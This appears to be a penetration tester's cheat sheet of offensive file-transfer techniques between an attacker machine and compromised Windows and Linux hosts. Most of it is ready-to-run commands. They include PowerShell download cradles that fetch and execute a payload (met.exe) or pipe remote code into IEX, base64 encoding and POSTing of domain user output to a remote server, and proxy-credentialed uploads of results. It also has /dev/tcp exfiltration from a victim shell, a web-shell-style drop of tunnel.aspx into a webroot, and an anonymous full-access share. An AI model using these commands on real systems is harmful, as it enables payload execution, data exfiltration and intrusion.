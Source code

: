 # File Transfer

* [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
* [https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle](https://github.com/evilmog/evilmog/wiki/DNS-Download-Cradle)
* [https://snovvcrash.github.io/2018/10/11/simple-http-servers.html](https://snovvcrash.github.io/2018/10/11/simple-http-servers.html)




## Base64

String to base64 and POST with PowerShell:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > IWR -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```

File to base64 with `certutil`:

```
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Base64 file transfer from Linux to Windows:

```
$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```




## Hex

Compress a binary file and transfer it to Windows by copy-pasting commands into the console:

```
$ upx -9 file.exe
$ exe2hex -x file.exe -p file.cmd
$ cat file.cmd | xclip -i -sel c
```




## PowerShell

PowerShell upload file:

```
PS > (New-Object Net.WebClient).UploadFile("http://10.10.13.37/file.txt", "file.txt")
```

PowerShell auto detect proxy, download file from remote HTTP server and run it:

```powershell
$proxyAddr=(Get-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings").ProxyServer;$proxy=New-Object System.Net.WebProxy;$proxy.Address=$proxyAddr;$proxy.UseDefaultCredentials=$true;$client=New-Object System.Net.WebClient;$client.Proxy=$proxy;$client.DownloadFile("http://10.10.13.37/met.exe","$env:userprofile\music\met.exe");$exec=New-Object -com shell.application;$exec.shellexecute("$env:userprofile\music\met.exe")
```

PowerShell manually set proxy and upload file to remote HTTP server:

```powershell
$client=New-Object System.Net.WebClient;$proxy=New-Object System.Net.WebProxy("http://proxy.megacorp.local:3128",$true);$creds=New-Object Net.NetworkCredential("snovvcrash","Passw0rd!","megacorp.local");$creds=$creds.GetCredential("http://proxy.megacorp.local","3128","KERBEROS");$proxy.Credentials=$creds;$client.Proxy=$proxy;$client.UploadFile("http://10.10.13.37/results.txt","results.txt")
```

Another proxy-aware download cradle:

```powershell
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem "HKU:\" -ErrorAction SilentlyContinue
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start=$key.Name.Substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy("http://$proxyAddr")
$wc = New-Object System.Net.WebClient
$wc.DownloadString("http://10.10.13.37/test.txt") | IEX
Remove-PSDrive -Name HKU -Force
```




## /dev/tcp

Attacker is the sender:

```
 # Sender:
root@kali:~$ tar -zcvf folder.tar.gz folder
root@kali:~$ nc -w3 -lvnp 1234 < folder.tar.gz
 # Recipient:
www-data@victim:~$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > .folder.tar.gz'
www-data@victim:~$ tar -zxvf .folder.tar.gz
```

Victim is the sender:

```
 # Recipient:
root@kali:~$ nc -w3 -lvnp 1234 > file.txt
 # Sender:
www-data@victim:~$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```




## SMB



### smbserver.py

Start SMB server:

```
$ sudo smbserver.py -smb2support share `pwd`
```

Mount SMB in Windows with `net use`:

```
$ sudo smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
Cmd > net use Z: \\10.10.13.37\share
Cmd > net use Z: \\10.10.13.37\share /u:snovvcrash 'Passw0rd!'
```

Mount SMB in Windows with `New-PSDrive`:

```
$ sudo smbserver.py -username snovvcrash -password 'Passw0rd!' -smb2support share `pwd`
PS > $pass = 'Passw0rd!' | ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $pass)
Or
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > New-PSDrive -Name Z -Root \\10.10.13.37\share -Credential $cred -PSProvider FileSystem
PS > cd Z:
```



### net share

```
Cmd > net share pentest=c:\smb_pentest /GRANT:"Anonymous Logon,FULL" /GRANT:"Everyone,FULL"
Or
Cmd > net share pentest=c:\smb_pentest /GRANT:"Administrator,FULL"
Cmd > net share pentest /delete
```




## FTP

```
$ python -m pip install pyftpdlib
$ python -m pyftpdlib -Dwp 2121
Cmd > cd C:\Windows\System32\spool\drivers\color
Cmd > echo 'open 127.0.0.1 2121' > ftp.txt
Cmd > echo 'user anonymous' >> ftp.txt
Cmd > echo 'anonymous' >> ftp.txt
Cmd > echo 'binary' >> ftp.txt
Cmd > echo 'put file.bin' >> ftp.txt
Cmd > echo 'bye' >> ftp.txt
Cmd > ftp -v -n -s:ftp.txt
```




## TFTP

Send `file.exe` from Windows to Linux (TFTP client must be [enabled](https://teckangaroo.com/enable-tftp-windows-10/) on Windows):

```
$ sudo atftpd --daemon --bind 10.10.13.37 --port 69 ./tftp
Cmd > tftp -i 10.10.13.37 put file.exe
$ sudo pkill atftpd
```

